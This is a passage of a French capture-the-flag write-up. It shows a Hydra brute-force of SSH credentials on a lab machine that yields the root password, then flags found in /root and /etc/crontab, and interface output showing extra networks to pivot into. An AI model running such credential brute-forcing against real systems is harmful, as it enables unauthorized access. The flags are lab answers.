 ```plain
 $ ./hydra -e nsr -L /tmp/users.txt -P /tmp/pass.txt ssh://127.0.0.1:2424/
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 153 login tries (l:9/p:17), ~10 tries per task
[DATA] attacking ssh://127.0.0.1:2424/
[2424][ssh] host: 127.0.0.1   login: root   password: anchor
1 of 1 target successfully completed, 1 valid password found
```

Pwned ! Dans */root* on trouve le flag *{{tryharder:391}}* et un autre dans la crontab générale :  

```plain
root@cfbd57786836:~# cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
5/* * * * *     root    logger "{{tryharder:301}}" &> /dev/null
```

Cette machine a accès à un réseau supplémentaire :  

```plain
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.31.10.194  netmask 255.255.255.0  broadcast 172.31.10.255
        ether 02:42:ac:1f:0a:c2  txqueuelen 0  (Ethernet)
        RX packets 8049789  bytes 1573186897 (1.5 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 65649  bytes 3543714 (3.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.31.20.194  netmask 255.255.255.0  broadcast 172.31.20.255
        ether 02:42:ac:1f:14:c2  txqueuelen 0  (Ethernet)
        RX packets 365982  bytes 67129189 (67.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 67442  bytes 3892074 (3.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.31.200.194  netmask 255.255.255.0  broadcast 172.31.200.255
        ether 02:42:ac:1f:c8:c2  txqueuelen 0  (Ethernet)
        RX packets 19  bytes 1426 (1.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
